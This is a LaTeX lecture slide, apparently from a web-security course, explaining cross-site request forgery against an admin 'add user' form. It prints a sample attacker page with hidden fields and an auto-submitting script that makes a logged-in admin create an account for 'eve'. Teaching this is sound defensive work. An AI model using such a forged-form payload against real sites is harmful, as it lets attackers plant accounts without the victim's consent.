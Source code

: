 \begin{frame}[fragile]
    \frametitle{Cross-Site Request Forgery}
    Example 3:
    \begin{itemize}
        \item Instead of a \verb|GET| request, the web application uses a form -- and, thus, a \verb|POST| request -- to add new users:
        \begin{verbatim}
            <form method="post" action="http://www.server.xyz/app/admin/adduser.php">
              Name: <input name="username"> <br>
              Passwort: <input name="password"> <br>
              <input type=submit value="Add User">
            </form>
        \end{verbatim}
        \item The data sent to the application is in the \verb|POST| request, i.e., it doesn't show in the URL
        \item Eve prepares a malicious web page and tricks the admin to open this page
        \item The web page contains a form that is auto-submitted upon opening the pages:
        \begin{verbatim}
            <form name="csrf" method="post" action="http://www.server.xyz/app/admin/adduser.php">
              <input type="hidden" name="username" value="eve">
              <input type="hidden" name="password" value="eve">
            </form>
            <script>document.CSRF.submit()</script>
        \end{verbatim}
        \item The (loged in via cookie) admin opens the malicious page
        \item The form is submitted automatically, as if the admin clicked on "Add User"
        \item The cookie to authenticate the admin is automatically sent by her web browser
    \end{itemize}
\end{frame}

